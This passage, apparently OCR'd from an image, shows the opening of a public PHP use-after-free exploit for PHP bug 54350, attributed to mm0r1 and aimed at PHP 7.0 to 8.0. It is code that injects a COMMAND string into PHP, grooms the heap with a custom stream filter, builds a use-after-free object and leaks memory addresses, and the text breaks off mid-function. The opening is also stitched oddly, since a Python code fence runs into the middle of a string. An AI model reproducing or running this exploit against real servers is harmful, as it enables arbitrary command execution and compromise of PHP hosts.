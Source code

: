```py
#
# Bug: https://bugs.php.net/bug.php?id=54350
# 
# This exploit should work on all PHP 7.0-8.0 versions
# released as of 2021-10-06
#
# Author: https://github.com/mm0r1

pwn('{}');""".format(COMMAND) + r"""

function pwn($cmd) {
    define('LOGGING', false);
    define('CHUNK_DATA_SIZE', 0x60);
    define('CHUNK_SIZE', ZEND_DEBUG_BUILD ? CHUNK_DATA_SIZE + 0x20 : CHUNK_DATA_SIZE);
    define('FILTER_SIZE', ZEND_DEBUG_BUILD ? 0x70 : 0x50);
    define('STRING_SIZE', CHUNK_DATA_SIZE - 0x18 - 1);
    define('CMD', $cmd);
    for($i = 0; $i < 10; $i++) {
        $groom[] = Pwn::alloc(STRING_SIZE);
    }
    stream_filter_register('pwn_filter', 'Pwn');
    $fd = fopen('php://memory', 'w');
    stream_filter_append($fd,'pwn_filter');
    fwrite($fd, 'x');
}

class Helper { public $a, $b, $c; }
class Pwn extends php_user_filter {
    private $abc, $abc_addr;
    private $helper, $helper_addr, $helper_off;
    private $uafp, $hfp;

    public function filter($in, $out, &$consumed, $closing) {
        if($closing) return;
        stream_bucket_make_writeable($in);
        $this->filtername = Pwn::alloc(STRING_SIZE);
        fclose($this->stream);
        $this->go();
        return PSFS_PASS_ON;
    }

    private function go() {
        $this->abc = &$this->filtername;

        $this->make_uaf_obj();

        $this->helper = new Helper;
        $this->helper->b = function($x) {};

        $this->helper_addr = $this->str2ptr(CHUNK_SIZE * 2 - 0x18) - CHUNK_SIZE * 2;
        $this->log("helper @ 0x%x", $this->helper_addr);

        $this->abc_addr = $this->helper_addr - CHUNK_SIZE;
        $this->log("abc @ 0x%x", $this->abc_addr);

        $this->helper_off = $this->helper_addr - $this->abc_addr - 0x18;

        $helper_handlers = $this->str2ptr(CHUNK_SIZE);
        $this->log("helper handlers @ 0x%x", $helper_handlers);

        $this->prepare_leaker();

        $binary_leak = $this->read($helper_handlers + 8);
```
